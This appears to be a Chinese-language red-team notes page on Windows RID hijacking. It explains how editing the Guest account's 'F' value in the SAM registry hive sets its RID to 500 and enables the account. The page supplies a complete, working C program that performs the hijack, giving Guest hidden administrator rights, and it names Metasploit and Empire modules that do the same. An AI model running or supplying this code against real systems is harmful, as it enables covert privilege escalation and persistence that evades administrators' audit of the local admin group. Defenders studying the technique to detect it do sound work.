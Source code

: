 ```yaml
---
description: RID-hijack
---
```


# RID劫持

## RID Hijack简介

在windows系统内，使用rid区分用户组和用户账户，rid是安全标识符sid的一部分，每创建一个组或一个用户，都会往后递增一位，通常administrator的rid始终为500，而标准用户通常以1001开始。

![](../.gitbook/assets/image%20%2838%29.png)

 [Sebastian Castr](https://twitter.com/r4wd3r)发现可以通过修改注册表来劫持有效账户的RID，使guest成为管理员，同时进行活动的话会以原本的身份记录在日志内。

## 手工操作

windows内置访客账户guest的rid信息储存在一下键值对内。

```text
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\Guest
```

![0x1f5&#x8F6C;&#x6362;&#x6210;&#x5341;&#x8FDB;&#x5236;501](../.gitbook/assets/image%20%2826%29.png)

也可以通过wmic查询。

```text
wmic useraccount where (name='Guest') get name,sid
```

![](../.gitbook/assets/image%20%2832%29.png)

通过RID在如下键值对内寻找账户的相关信息。

```text
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F5
```

找到如下注册表项的键值对“F",此键值对内存储着标识账户RID和是否开启的数值。

PS:需要system权限。

![](../.gitbook/assets/image%20%2877%29.png)

在"F"键值对偏移0x30的位置存储着RID，修改为0xF401\(500\)即可劫持RID。

偏移0x38确定账户是否启用\(0X1502-&gt;关闭,0x1402-&gt;启用\)。

更改这些值将启用启用来宾帐户（有时情况下一部分），并劫持提升的RID（本地管理员）。来宾帐户将具有管理员权限，但是该帐户仍然不会出现在本地管理员组中。

## 代码实现

由于powershell和bat的脚本在互联网上可以轻易找到，这里只给出c的版本。

在metasploit和empire内也有比较成熟的模块。

```text
#include <Windows.h>
#include <stdio.h>


int  main()
{
	HKEY hKey = NULL;
	PCHAR KeyAddr = NULL;
	DWORD KeySize;
	DWORD KeyType;
	BYTE Buffer[0x50] = { 0 };
	KeyAddr = (PCHAR)"SAM\\SAM\\Domains\\Account\\Users\\000001F5";

	RegOpenKeyExA(HKEY_LOCAL_MACHINE, KeyAddr, 0, KEY_ALL_ACCESS, &hKey);
	RegQueryValueExA(hKey, "F", NULL, &KeyType, (LPBYTE)&Buffer, &KeySize);

	Buffer[0x30] = (BYTE)0xf4; //hijack rid
	Buffer[0x38] = (BYTE)0x14; //enable guest
	
	RegSetValueExA(hKey, "F",NULL, KeyType, Buffer, KeySize);
	RegCloseKey(hKey);
	return 0;
}

```

## LINKS

{% embed url="https://pentestlab.blog/category/red-team/persistence/page/1/" %}

{% embed url="https://xz.aliyun.com/t/2998" %}



